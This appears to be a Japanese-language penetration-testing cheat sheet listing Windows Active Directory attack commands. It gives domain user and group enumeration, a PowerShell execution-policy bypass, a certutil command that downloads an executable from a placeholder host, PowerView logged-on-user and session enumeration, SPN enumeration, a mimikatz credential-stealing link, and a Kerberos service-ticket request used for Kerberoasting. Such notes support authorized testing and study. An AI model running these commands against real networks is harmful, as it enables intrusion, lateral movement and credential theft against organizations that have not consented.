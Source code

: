 ドメインユーザーの詳細表示

```
net user <username> /domain
```

ドメイングループの表示

```
net group /domain
```

powershellの実行ポリシーバイパス

```
set-ExecutionPolicy unrestricted
```

windows file転送

```
certutil -urlcache -f http://ip/1.exe 1.exe
```

nc ファイル転送
https://gist.github.com/jtbonhomme/50e381f053f6cd0acdb8

### PowerView

```
set-ExecutionPolicy unrestricted
Import-Module ./PowerView.ps1
```

現在ログインしているユーザーの列挙

```
Get-NetLoggedon -ComputerName <ComputerName>
```

現在有効なセッション

```
Get-NetSession -ComputerName <ComputerName>
```

spn列挙→ドメイン把握

```
set-ExecutionPolicy unrestricted
./spnEnum.ps1
nslookup <serviceprincipalname>
```

mimikatz
https://book.hacktricks.xyz/windows/stealing-credentials

サービスチケットの要求

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<spnname>'
```
